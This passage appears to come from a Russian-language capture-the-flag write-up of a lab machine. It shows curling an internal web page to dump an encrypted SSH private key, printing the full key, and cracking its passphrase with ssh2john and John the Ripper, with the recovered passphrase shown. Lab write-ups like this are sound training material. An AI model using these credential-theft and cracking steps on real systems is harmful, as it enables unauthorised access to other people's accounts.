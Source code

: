 >Пробуем:

```html
jimmy@openadmin://var/www/internal$ curl http://localhost:52846/main.php
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
Don't forget your "ninja" password
```

>Скопируем приватный ключ в новый файл "rsa" и попробуем выудить из него полезное:

```html
root@kali:~# python3 /usr/share/john/ssh2john.py rsa > rsa.hash
/usr/share/john/ssh2john.py:103: DeprecationWarning: decodestring() is a deprecated alias since Python 3.1, use decodebytes()
  data = base64.decodestring(data)

root@kali:~# john --wordlist=rockyou.txt rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (rsa)
1g 0:00:00:09 DONE (2020-04-02 11:11) 0.1030g/s 1478Kp/s 1478Kc/s 1478KC/sa6_123..*7¡Vamos!
Session completed
```
